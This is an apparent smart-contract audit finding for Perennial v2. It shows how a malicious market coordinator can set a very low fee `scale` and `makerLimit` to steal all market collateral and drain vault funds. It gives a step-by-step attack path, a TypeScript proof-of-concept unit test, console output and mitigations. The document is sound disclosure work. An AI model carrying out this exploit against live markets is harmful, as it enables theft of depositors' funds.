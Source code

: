 Dizzy Rusty Osprey

High

# Market coordinator can steal all market collateral by abusing very low value of `scale`

**Summary**
The README states the following:
> Q: Please list any known issues and explicitly state the acceptable risks for each known issue.
Coordinators are given broad control over the parameters of the markets they coordinate. The protocol parameter is designed to prevent situations where parameters are set to malicious steal funds. If the coordinator can operate within the bounds of reasonable protocol parameters to negatively affect markets we would like to know about it

Market coordinator can set both `makerLimit` and `scale` for `takerFee` at very low amount (like 1), which will charge absurdly high taker proportional fee to existing positions, because proportional fee formula is `change.abs().mul(price).muldiv(change.abs(), scale).mul(fee)`, i.e. the fee is `(order_size)^2 * price * fee` when scale is 1. The same issue is with maker proportional fee and taker adiabatic fee - all of them multiply by order size divided by `scale`.

The only limitation for `scale` setting is that it must be larger than some percentage of `makerLimit` and there is no limitation on `makerLimit`:
```solidity
    UFixed6 scaleLimit = self.makerLimit.div(self.efficiencyLimit).mul(protocolParameter.minScale);
    if (self.takerFee.scale.lt(scaleLimit) || self.makerFee.scale.lt(scaleLimit))
        revert RiskParameterStorageInvalidError();
```
This allows to set any `scale` amount, the `makerLimit` just has to be set to a similar amount, or alternatively `efficiencyLimit` can be set to a huge amount (there is only downside limitation for it), which will make `scaleLimit` very low, allowing very low `scale` values.

Market coordinator can abuse this by opening large maker position (settling it), opening large taker position (unsettled), changing risk parameter `makerLimit` and `scale` to 1, then at the next oracle version the large taker position will be settled using `scale = 1`, charging fees much higher than 100%, putting taker position into huge bad debt, while all makers will have huge profit (larger than market collateral), which coordinator can immediately withdraw from his maker position, stealing all market collateral.

**Root Cause**
The exact root cause is hard to determine here. It might be the lack of risk parameter settings validations: the only `scale` check is against `scaleLimit` calculated from `makerLimit`, but there is no conditions on `makerLimit` itself:
https://github.com/sherlock-audit/2024-08-perennial-v2-update-3/blob/main/perennial-v2/packages/perennial/contracts/types/RiskParameter.sol#L159-L161

On the other hand, it's probably hard to set correct protocol-wide limitation for this, so maybe the issue is with the design of the proportional and adiabatic fees, where the `order_size / scale` multiplication is quite dangerous as it is unlimited.

**Internal pre-conditions**
Coordinator is malicious.

**External pre-conditions**
None.

**Attack Path**
1. Coordinator opens large maker position, settles it
2. Coordinator opens large taker position (but doesn't settle it yet)
3. Coordinator sets risk parameter: `makerLimit = 1`, `takerFee.scale = 1` and `takerFee.propotionalFee` set to max.
4. Coordinator commits oracle version of the taker position, settles maker+taker positions: taker is in huge bad debt, maker is in huge profit (larger than all market collateral)
5. Coordinator withdraws all market collateral

Note: step 1 and 2 are preparation, steps 3-5 can be performed in 1 transaction

Alternatives:
- Setting `takeFee.scale = 1` and `efficiencyLimit` to a very high value.
- All taker trades after the `scale = 1` is set will incur huge fee, so it's possible to have settled taker position before the risk params change, and then close it by liquidation, incuring huge fees. Coordinator doesn't even have to open his own taker position, he can simply liquidate any large existing taker.
- Use adiabatic fees scale instead of taker proportional fees
- Use maker propotional fees (and use only maker accounts)

**Impact**
All market collateral stolen.

Additional impact: if the market is part of any vault, almost all this vault funds can be stolen. This can be done by forcing the vault to re-balance (depositing or withdrawing some amount), which will charge huge fees, making vault's collateral in the market negative. Next re-balance will add more collateral into the market, which can be stolen again, repeated until most vault funds are stolen.

**PoC**
<details>
<summary>Add to `test/unit/Market.test.ts` in the `update` context to demonstrate the scenario described above:</summary>

```ts
it('Coordinator steals all funds by reducing fees scale', async () => {

    // collateral to pay fee only
    const A_COLLATERAL = parse6decimal('100000')
    const C_COLLATERAL = parse6decimal('10000')
    const A_POSITION = parse6decimal('1000')

    dsu.transferFrom.whenCalledWith(user.address, market.address, A_COLLATERAL.mul(1e12)).returns(true)
    dsu.transferFrom.whenCalledWith(userB.address, market.address, A_COLLATERAL.mul(1e12)).returns(true)
    dsu.transferFrom.whenCalledWith(userC.address, market.address, C_COLLATERAL.mul(1e12)).returns(true)

    // honest userC simply deposits $1M collateral, not even opening position
    await market
        .connect(userC)
        ['update(address,uint256,uint256,uint256,int256,bool)'](userC.address, 0, 0, 0, C_COLLATERAL, false)

    // coordinator is the only maker in the market for simplicity
    await market
        .connect(user)
        ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, A_POSITION, 0, 0, A_COLLATERAL, false)

    // wait for the next oracle version to settle maker
    oracle.at.whenCalledWith(ORACLE_VERSION_2.timestamp).returns([ORACLE_VERSION_2, INITIALIZED_ORACLE_RECEIPT])
    oracle.status.returns([ORACLE_VERSION_2, ORACLE_VERSION_3.timestamp])
    oracle.request.whenCalledWith(user.address).returns()

    await market.settle(user.address)

    // coordinator uses another accounts to open large taker positions (unsettled)
    await market
        .connect(userB)
        ['update(address,uint256,uint256,uint256,int256,bool)'](userB.address, 0, A_POSITION, 0, A_COLLATERAL, false)

    var loc = await market.locals(user.address);
    console.log("User collateral (maker)  : " + loc.collateral);
    var loc = await market.locals(userB.address);
    console.log("UserB collateral (taker) : " + loc.collateral);
    var loc = await market.locals(userC.address);
    console.log("UserC collateral (honest): " + loc.collateral);

    const maliciousRiskParameter = {
        ...riskParameter,
        makerLimit: 1000000, // minimal maker limit
        takerFee: {
        ...riskParameter.takerFee,
        proportionalFee: parse6decimal('0.01'), // set max fee since this will be paid to taker on close
        scale: 1000000, // minimal scale
        },
        // set utilization curve to 0 to better showcase the scale impact
        utilizationCurve: {
        ...riskParameter.utilizationCurve,
        minRate: parse6decimal('0.0'),
        maxRate: parse6decimal('0.0'),
        targetRate: parse6decimal('0.0'),
        targetUtilization: parse6decimal('0.50'),
        },
    }

    // coordinator sets very low maker limit and very low scale (1), his taker position is still pending
    await market.connect(coordinator).updateRiskParameter(maliciousRiskParameter)

    oracle.at.whenCalledWith(ORACLE_VERSION_3.timestamp).returns([ORACLE_VERSION_3, INITIALIZED_ORACLE_RECEIPT])
    oracle.status.returns([ORACLE_VERSION_3, ORACLE_VERSION_4.timestamp])
    oracle.request.whenCalledWith(user.address).returns()

    // user position is settled with a large amount (much higher than maker) but new risk parameters (very low scale)
    await settle(market, user)
    await settle(market, userB)

    console.log("After attack");
    var loc = await market.locals(user.address);
    console.log("User collateral (maker)  : " + loc.collateral);
    var loc = await market.locals(userB.address);
    console.log("UserB collateral (taker) : " + loc.collateral);
    var loc = await market.locals(userC.address);
    console.log("UserC collateral (honest): " + loc.collateral);
})
```
</details>

Console output from execution:
```solidity
User collateral (maker)  : 100000000000
UserB collateral (taker) : 100000000000
UserC collateral (honest): 10000000000
After attack
User collateral (maker)  : 1330000000000
UserB collateral (taker) : -1130000000000
UserC collateral (honest): 10000000000
```

Notice: honest user deposits 10K, coordinator deposits 100K+100K, after attack coordinator has collateral of 1.33M (much more than total collateral of 210K), which he can withdraw.

**Mitigation**
Depends on protocol design choice. Possibilities I see:
- Make `scale` validation more strict: possibly use `max(makerLimit, currentGlobalPosition.long,short,maker )` instead of `makerLimit` in `scaleLimit` calculation, so that `scale` should obey not just `makerLimit` percentage, but also max from currently opened positions. Additionally validate `efficiencyLimit` max value (limit to 1?)
- Change proportional and adiabatic fee formulas for something more percentage-based so that there is a strict max fee limit
- Add hard percentage cap on proportional and adiabatic fees (currently proportional fee = 1% doesn't mean that it's max 1% - it's actually unlimited, 1% is some arbitrary number not telling anything about real percentage charged, so it makes sense to still have a cap for it)